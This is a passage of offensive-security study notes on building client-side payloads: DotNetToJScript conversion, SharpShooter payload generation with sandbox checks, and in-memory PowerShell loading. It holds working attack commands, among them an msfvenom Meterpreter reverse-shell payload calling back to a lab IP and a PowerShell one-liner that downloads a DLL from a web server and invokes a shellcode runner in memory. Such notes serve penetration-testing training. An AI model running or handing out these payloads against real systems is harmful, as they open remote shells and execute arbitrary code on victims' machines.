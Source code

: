 Command to build Jscript file

```powershell
.\DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o Basic_Jscript_Shellcode_Runner.js
```

![[Pasted image 20240601210047.png]]

- Use `DotNetToJscript` to obtain a shellcode runner in VBScript format. -> No because [The End of an Era: Microsoft Phases Out VBScript for JavaScript and PowerShell](https://thehackernews.com/2024/05/the-end-of-era-microsoft-phases-out.html) 

# 4.3 Automation - SharpShooter

Automation of the process of this module using the tools called [SharpShooter](https://github.com/mdsecactivebreach/SharpShooter) 

SharpShooter is a payload creation framework for the retrieval and execution of arbitrary CSharp source code. SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS and WSF. 

[Installation](https://www.kali.org/tools/sharpshooter/#sharpshooter) in Kali Linux

```bash
sudo apt-get update
sudo apt install python3-jsmin
sudo apt install sharpshooter
sharpshooter -h
```

Create a raw staged payload: `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.123 LPORT=443 -f raw -o staged_shell.txt`

Stageless JavaScript

```bash
sharpshooter --payload js --dotnetver 4 --stageless --rawscfile staged_shell.txt --sandbox 1=contoso,2,3 --output staged_shell_JScript
```

[Demiguise](https://github.com/nccgroup/demiguise) - HTA encryption tool for RedTeams

# 4.4. In-memory PowerShell Revisited

Create a Class Library (.NET Framework)

Copy the content of "C# shellcode runner" and compile it and copy the resulting DLL in to Web Server.

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/ClassLibrary1.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```
